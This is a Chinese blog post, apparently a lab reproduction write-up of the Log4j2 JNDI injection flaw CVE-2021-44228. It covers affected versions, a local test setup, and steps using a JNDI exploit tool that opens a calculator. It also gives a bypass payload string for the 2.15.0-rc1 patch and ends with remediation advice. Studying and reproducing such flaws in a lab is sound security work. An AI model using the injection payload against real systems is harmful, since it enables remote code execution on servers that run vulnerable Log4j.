





# 漏洞复现 -“核弹”漏洞-Log4j2 JNDI 注入（CVE-2021-44228） - Sally_Zhang - 博客园

> 原文：[`www.cnblogs.com/sallyzhang/p/16227305.html`](https://www.cnblogs.com/sallyzhang/p/16227305.html)

该漏洞被评为“核弹”级别，实在是 log4j 使用范围太广了，只要写 java 的，没几个没听过用过 log4j 吧。

**漏洞原理**

利用 jndi 的 Lookup 功能，实现 jndi 注入命令执行

**影响范围**

log4j 2.0-beta9 到 2.15.0（1.* 版本不受影响）

**复现环境**

jdk： 1.8.0_181

log4j：2.14.1

OS：Win10

**复现步骤**

1\. 创建一个 springboot 的工程，验证当前的 log4j 库是否存在漏洞。

能解析${}表达式的才存在漏洞，官网的 log4j 库已经修复了，无法解析该表达式，需要找老的库来复现。

 2\. 验证外部传入表达式${}能否解析

3.开启 JNDI 注入利用工具

设置执行打开计算器的命令，开启后得到 rmi 和 ldap 的地址

4.利用 jndi 注入

官方随后出的补丁版本 2.15.0-rc1 也是可以绕过继续注入的，绕过方法为带空格的异形 URI 地址（127.0.0.1:8888/和 exp 之间）：${jndi:ldap://127.0.0.1:8888/ exp}

嗯，补得很好，下次不要再补了

**漏洞修复**

1\. 下载官网最新版的 log4j(2.16.0)版本就行了

2\. 建议 JDK 使用 6u211、7u201、8u191、11.0.1 及以上的版本（网上看到的，本人未验证过）

正好机器上有 jdk13，咱是勤劳而严谨的人儿，还是要验证一把

重新建一个 jdk13 的 springboot 工程，依然还是同一个 log4j 库，执行结果如下：

 ${}表达式依然是可以执行的，只是 jndi 注入无法执行了。嗯，升级 jdk 是可行的。

**本文仅用于技术学习和交流，严禁用于非法用途，否则产生的一切后果自行承担。**

**如需转载，请注明出处，这是对他人劳动成果的尊重。**